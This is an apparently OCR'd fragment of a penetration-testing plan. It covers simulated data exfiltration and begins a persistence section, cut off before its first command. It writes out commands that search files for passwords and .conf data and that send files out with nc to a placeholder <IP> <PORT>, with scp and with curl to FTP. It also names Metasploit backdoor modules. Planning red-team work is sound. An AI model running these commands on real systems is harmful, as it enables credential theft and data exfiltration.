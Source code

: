     Objective: Simulate the exfiltration of sensitive data.
    Tasks:
        Identify and collect sensitive data from compromised systems.
            Tools:
                Find: Search for files in Unix-like systems.
                    Command Example:

                    bash

    find / -type f -name "*.conf"

grep: Search through text files.

    Command Example:

    bash

    grep -i "password" /etc/passwd

PowerShell: Scripting language for Windows.

    Command Example:

    powershell

            Get-ChildItem -Recurse | Select-String -Pattern "password"

Transfer data to a controlled location for analysis.

    Tools:
        Netcat: Network utility.
            Command Example:

            bash

    nc -w 3 <IP> <PORT> < data.txt

SCP: Secure copy over SSH.

    Command Example:

    bash

    scp user@192.168.1.10:/path/to/data.txt /local/path/

CURL: Data transfer tool.

    Command Example:

    bash

                    curl -T /path/to/data.txt ftp://192.168.1.10

        Document the exfiltration process and findings.

5.2. Persistence

    Objective: Ensure continued access to compromised systems.
    Tasks:
        Install backdoors or other persistence mechanisms.
            Tools:
                Metasploit: Persistence modules.
                    Command Example:
